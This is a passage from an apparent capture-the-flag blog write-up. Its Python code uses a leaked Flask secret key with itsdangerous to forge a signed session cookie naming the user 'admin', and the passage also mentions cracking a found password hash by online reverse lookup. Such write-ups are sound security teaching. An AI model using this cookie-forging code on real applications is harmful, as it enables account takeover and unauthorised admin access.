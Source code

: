 So it seems we need to set `salt` to `cookie-session`, `signer_kwargs` to `{"key_derivation": "hmac", "digest_method": hashlib.sha1}` and `serializer` to... what exactly? The value in class references a global variable that's fortunately just above it:
```python
session_json_serializer = TaggedJSONSerializer()
```
After looking at the imports we find one that matches this class:
```python
from .json.tag import TaggedJSONSerializer
```
So we'll need to import this class from `Flask.json.tag` too.

# Creating a cookie

Let's put it all together then:
```python
import hashlib
from itsdangerous.url_safe import URLSafeTimedSerializer
from flask.json.tag import TaggedJSONSerializer

session_json_serializer = TaggedJSONSerializer()

# stolen secret
secret =  b"\xCC" * 16

serializer = URLSafeTimedSerializer(
                        secret, 
                        salt="cookie-session", 
                        serializer=session_json_serializer, 
                        signer_kwargs=dict(
                                                         key_derivation="hmac",
                                                         digest_method=hashlib.sha1
                                                         )
                        )
```

Finally we can use our `serializer` object to generate a signed cookie value with the data we need by just passing a dictionary to its `dumps` method (like we'd do with JSON or any other serializer). We wanted to become the `admin` user, so we can find in `app.py` that the key we need to set is `user` and the value is just the username:
```python
serializer.dumps({"user": "admin"})
```

![result](https://cdn.hashnode.com/res/hashnode/image/upload/v1625438332707/LI4s-RpLb.png)

And we got a value! We could now craft a request with a proper cookie, and we would have to if we didn't find user credentials (which can also be easily found by running the hash we found for `user` in any online sha256 reverse lookup), but while it's simple, we just don't have to bother with doing it manually and can just use the devtools modern browsers give us and change the value from there:

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625438549501/4IUofNBVR.png)

# and finally, success

After refreshing we get to our flag (redacted, you have to do at least some work yourself to get it :)

![success](https://cdn.hashnode.com/res/hashnode/image/upload/v1625438764312/-gdARzHVE.png)


